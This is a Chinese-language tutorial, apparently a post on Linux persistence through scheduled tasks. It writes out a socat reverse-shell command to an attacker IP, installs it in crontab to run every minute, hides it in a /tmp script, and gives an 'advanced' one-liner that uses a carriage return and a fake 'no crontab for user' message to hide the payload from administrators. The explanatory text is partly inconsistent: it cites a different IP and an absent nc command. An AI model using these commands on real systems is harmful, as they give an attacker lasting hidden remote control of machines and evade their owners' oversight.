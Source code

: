 ### Linux 计划任务权限维持

**靶机有 socat 的情况下**

```bash
socat exec:'bash -i',pty,stderr,setsid,sigint,sane tcp:192.168.41.151:6666
```

**`socat`**: 这是命令的核心工具。`socat` 被称为网络工具中的“瑞士军刀”，它可以在两个单向数据流之间建立双向连接。在这里，它连接了本地的 **Shell I/O 流**和**远程的 TCP 网络流**

**`exec:'bash -i',pty,stderr,setsid,sigint,sane`**: 这一部分定义了 **本地数据流**（即目标机上的 Shell 进程）的特性

- **`exec:'bash -i'`**: 告诉 `socat` 执行 `/bin/bash` 并开启一个**交互式 Shell**（`-i`）
- **`pty`**: 这是关键参数之一，它为 `bash` 进程分配了一个**伪终端（Pseudo-Terminal）**。这使得获得的 Shell 具有 **稳定性**，能够支持 Tab 键补全、方向键、以及运行 `sudo`、`vi` 等需要终端控制的程序
- **`stderr`**: 将标准错误输出也重定向到网络连接，确保攻击者能看到所有错误信息
- **`setsid` / `sigint` / `sane`**: 这些参数都是为了提高 Shell 的**稳定性和可靠性**。它们处理会话ID、中断信号（如 Ctrl+C）和终端参数设置，确保你在 Shell 中的操作不会导致连接意外中断或显示混乱

**`tcp:103.82.55.92:7777`**: 这一部分定义了**远程网络流**

- `tcp`: 指定使用 TCP 协议进行连接
- `103.82.55.92:7777`: 这是目标连接的地址和端口。它指向**攻击者的 IP 地址**和预先设置好的**监听端口**

![](https://pic1.imgdb.cn/item/68d641f0c5157e1a883695f4.png)

当然我们可以直接 `crontab -e` 加入 payload 实现权限维持

系统会提示你选择一个编辑器

输入 `1` 并按回车键输入以下 payload

```
* * * * * socat exec:'bash -i',pty,stderr,setsid,sigint,sane tcp:192.168.41.151:6666
```

**`\* \* \* \* \*`**: Cron 的时间设置，表示“每分钟的每小时的每一天的每个月的任何星期”，即**每分钟运行一次**

**在 nano 中操作：**

- 按 `Ctrl + O` (Write Out) 保存文件
- 按 `Enter` 键确认文件名
- 按 `Ctrl + X` 退出编辑器

![](https://pic1.imgdb.cn/item/68d643d1c5157e1a8836a7b3.png)

也可以通过绝对路径的某个脚本来进行藏匿真实的 Payload 放进脚本中

![](https://pic1.imgdb.cn/item/68d644b2c5157e1a8836ae07.png)

添加权限后换位置

![](https://pic1.imgdb.cn/item/68d64763c5157e1a8836c435.png)

在定时任务中添加

```
* * * * * /tmp/test.sh
```

![](https://pic1.imgdb.cn/item/68d64794c5157e1a8836c792.png)

成功连接

![](https://pic1.imgdb.cn/item/68d647cfc5157e1a8836caa8.png)

**高级权限维持**

```bash
(crontab -l;printf "* * * * * socat exec:'bash -i',pty,stderr,setsid,sigint,sane tcp:192.168.41.151:6666;/bin/bash --noprofile -i;\rno crontab for `whoami`%100c\n")|crontab -
```

1. `crontab -l`：读取现有任务

- **作用：** 列出当前用户（这里是 `root`，因为前面使用了 `sudo crontab -e`，或者你直接在 root Shell 下运行）所有的定时任务
- **结果：** 输出到标准输出流，并通过管道 `|` 传递给下一个命令

2. `printf "..."`：构造恶意 Payload 和伪装信息

这是命令的核心，它构造了一个带有伪装的字符串，并追加到 Crontab 内容的末尾

- `;/bin/bash --noprofile -i;`:
  - **Shell 逃逸/双重执行：** 这是一个额外的 Shell 执行命令。它确保即使 `nc` 命令失败（例如目标机上没有 `-e` 参数），它也会尝试启动一个交互式 Shell。`--noprofile` 使其启动更快
- `\r`:
  - **回车符（Carriage Return）：** 将光标移到当前行的最前面，而不换行
- `no crontab for \ `whoami` %100c\n`:
  - **关键伪装：** 这是最巧妙的部分。它模仿了系统在用户没有 Crontab 时会显示的默认信息：`no crontab for [username]`
    - `\r` 将光标移到行首
    - `no crontab for \`whoami``这段文本会**覆盖**掉你之前添加的`nc` Payload 的**前半部分**
    - `%100c` 会打印 100 个空格，进一步填充或覆盖掉 Payload 的剩余部分
    - **注意：** 这里的伪装是**欺骗眼睛的**。当用户使用 `crontab -l` 查看时，屏幕上会看到 `no crontab for user` 这样的信息，**误以为没有定时任务**，但实际的 Crontab 文件内容中，Payload 仍然存在（只是被覆盖打印了）

![](https://pic1.imgdb.cn/item/68d65064c5157e1a88374c29.png)
